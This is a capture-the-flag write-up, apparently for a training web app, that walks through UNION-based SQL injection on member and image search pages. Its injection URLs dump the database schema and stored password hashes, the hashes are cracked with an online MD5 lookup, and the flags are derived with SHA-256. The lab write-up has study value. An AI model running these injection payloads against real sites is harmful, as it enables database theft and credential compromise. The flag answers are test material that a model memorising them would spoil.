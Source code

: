 # SQL injection
## Table users
The member search page allows SQL injection.
http://192.168.99.100/?page=member

Searching for user ID 5 returns the following: `First name: Flag \n Surname: GetThe`. ID 4 and 6 don't exist.

Putting the following query in the member search input will get us the DB schema:
`1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns`
http://192.168.99.100/?page=member&id=1+AND+1%3D2+UNION+SELECT+table_name%2C+column_name+FROM+information_schema.columns&Submit=Submit#
This reveals that the users table has the following columns:
`user_id, first_name, last_name, town, country, planet, Commentaire, countersign`

The following query will reveal something about GetThe Flag (the second query needs to have exactly 2 columns):
`1 AND 1=2 UNION SELECT Commentaire, countersign FROM users WHERE 1=1`
http://192.168.99.100/?page=member&id=1+AND+1%3D2+UNION+SELECT+Commentaire%2C+countersign+FROM+users+WHERE+1%3D1&Submit=Submit#
Commentaire: `Decrypt this password -> then lower all the char. Sh256 on it and it's good !`
countersign: `5ff9d0165b4f92b14994e5c685cdce28`
Looks like hex but that only returns garbage. Paste into Google and you get a few results for reverse MD5 hashes. It decodes as `FortyTwo`.
https://md5.gromweb.com/?md5=5ff9d0165b4f92b14994e5c685cdce28

sha256(`fortytwo`) =>
Flag: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

## Table list_images
With the link above we can find out that there is a table called `list_images`:
(http://192.168.99.100/?page=member&id=1+AND+1%3D2+UNION+SELECT+table_name%2C+column_name+FROM+information_schema.columns&Submit=Submit#)

Its schema is:
`id, url, title, comment`

This table is in a different database so we need to use a different URL (`page=searchimg`) to inject it. The interesting data is in the `comment` column.
http://192.168.99.100/?page=searchimg&id=1+AND+1%3D2+UNION+SELECT+comment%2C+title+FROM+list_images+WHERE+1%3D1&Submit=Submit#

ID 5's comment is `If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46`

It decodes as `albatroz`: https://md5.gromweb.com/?md5=1928e8083cf461a51303633093573c46
sha256(`albatroz`) =>
Flag: `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`
